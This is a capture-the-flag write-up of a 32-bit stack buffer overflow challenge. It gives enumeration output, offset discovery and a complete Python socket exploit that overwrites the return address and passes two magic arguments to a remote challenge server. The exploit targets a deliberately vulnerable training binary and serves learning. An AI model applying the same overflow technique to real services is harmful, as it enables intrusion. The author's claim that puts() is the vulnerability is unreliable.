## File enumeration

```
file vuln
	vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /				lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not 	stripped
```

```
ldd vuln   
        linux-gate.so.1 (0xf7f50000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
        /lib/ld-linux.so.2 (0xf7f52000)

```

```
checksec vuln   
[*] '/home/kali/Documents/HTB/challenges/pwn/you_know_diablo/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```


### Memory Locations
fopen = 0x0804830b
puts = 0x08048311
printf = 0x08048316
fgets = 0x0804831d
_setresgid_ = 0x0804832a



There are `gets` and `puts` in the `vuln()` anf `flag` functions, so I suppose it might be BOF


## First thoughts
The EBP + param one is compared with 0xdeadbeef and EBP + param 2 is compared with 0xcoded00d. I believe these must be manipulated in order to get the flag. 
![[YKD parameters.png]]
`param_1` = 0xdeadbeef
`param_2' = 0xc0ded00d
Flag is 64 characters long

1 .`cyclic 700`
2. run the program in gdb and the bufferoverflow shows the segfault
3. `cyclic -l 0x62616178` (aka address of ESP) shows offset of 192
	EIP must be both 0xdeadbeef or 0xc0ded00d??
	
	![[YKD EIP control.png]]

192 = offset, so 188 + 4 bytes = adress to jump to. This is what I need to specify...

![[YKD puts vuln flag function.png]]
4. `readelf -a vuln` gave some addresses, including 080491e2 which is the address for _flag_
5. using this address with python and piping it to the program gave the 'hurry up and try it on server side' which was a string I had not previously seen.
	HOWEVER, piping it to the netcat instance did not return the same; it returned nothing...
	
## Next teps
Analysing the code, the `local_50`, aka the flag, will only be printed if `parm_1` and `param_2` are supplied to the function, so I need to figure out how to pass the parameter to the function after having specified the flag function. I believe this is _ropchaining_?

![[YKD local exploit successful.png]]

Could it just be added after? According to [this article](https://web.archive.org/web/20161106210059/https://www.exploit-db.com/docs/28553.pdf), any 4 bytes could be added followed by the parameters, which were identified to be two as mentioned earlier. Then with the script (see below) connecting to the remote netcat server the flag was leaked!

```Python
#!/usr/bin/env python

import socket
import struct


ip = '165.227.232.214'
port = 32746


offset = 188
eip = struct.pack('<I', 0x080491e2) #< is for little endian and I should be for integer value. It handles the little endianness transformation required.

p2_goal = -0x3f212ff3
p1_goal = -0x21524111

#print(hex(p1_goal & ((1 << 32) - 1)))    #0xdeadbeef
#print(hex(p2_goal & ((1 << 32) - 1)))    #0xc0ded00d

param_1 = struct.pack('<I', 0xdeadbeef) 
param_2 = struct.pack('<I', 0xc0ded00d
)

payload = b''.join([b'A'*offset, eip, b'DUMM', param_1, param_2, b'\n'])



with socket.socket() as conn:
	conn.connect((ip, port))
	print(conn.recv(4069))
	conn.send(payload)
	print(conn.recv(4096))
	print(conn.recv(4096))
```


![[YKD flag.png]]

# Final Thoughts
Thus, the `puts()` called in the `flag` function wa the vulnerability which allowed for the BOF. Additionally, as there was no ASLR the memory addresses were constant which made the challenge easier. 
The method of sending the address to the program was the bit I initially lacked knowledge of how to do, and is therefore the new thing I learned by watching [john hammond's video](https://www.youtube.com/watch?v=k4hqdVo3cqk). 